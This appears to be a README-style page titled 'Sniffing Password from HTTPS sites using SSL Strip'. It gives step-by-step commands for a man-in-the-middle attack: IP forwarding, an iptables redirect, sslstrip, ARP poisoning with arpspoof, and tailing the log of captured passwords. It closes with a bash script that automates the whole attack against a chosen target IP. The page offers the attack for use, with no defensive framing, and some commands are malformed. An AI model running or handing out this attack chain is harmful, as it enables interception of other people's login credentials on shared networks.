 

### Sniffing Password from HTTPS sites using SSL Strip

    Enable IP forwarding
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
### Set Network Address Translation in Firewall(IPtables here)
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```
### Confirm the rule!

```
iptables -L -t nat
```

### Run SSL Strip on the port

The port is already enabled in the firewall in previous step

```
sslstrip -p -l 10000
```

### Start ARP Poisoning

```
arpspoof -i -t <target_host>
```

### Listen for the sslstrip log

```
tail -f sslstrip.log
```

### Start Browsing and Capture it.
```
#!/bin/bash

read -p "Target" targetIP read -p "Gateway" gatewayIP echo Enabling IP forward echo echo 1 > /proc/sys/net/ipv4/ip_forward echo echo Adding port to the firewall iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000 echo echo Check the rule in firewall iptables -L -t nat echo echo Starting SSL Strip sslstrip -p -l 10000& echo echo Start the ARP Poisonging arpspoof -i eth0 $targetIP $gatewayIP& echo Listen to the SSLStrip Log tailf -f sslstrip.log
```
